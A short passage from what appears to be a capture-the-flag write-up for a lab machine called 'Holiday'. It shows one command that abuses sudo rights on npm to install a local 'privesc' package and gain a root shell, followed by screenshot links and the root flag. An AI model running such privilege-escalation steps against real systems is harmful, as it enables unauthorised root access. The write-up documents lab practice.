 ```sh
sudo /usr/bin/npm i privesc/ --unsafe
```

![](/Linux/Linux-Hard/Holiday/Screenshots/sudol.png)

just like that and we get the root shell

![](/Linux/Linux-Hard/Holiday/Screenshots/root.png)

so then we can get the root flag

![](/Linux/Linux-Hard/Holiday/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley------------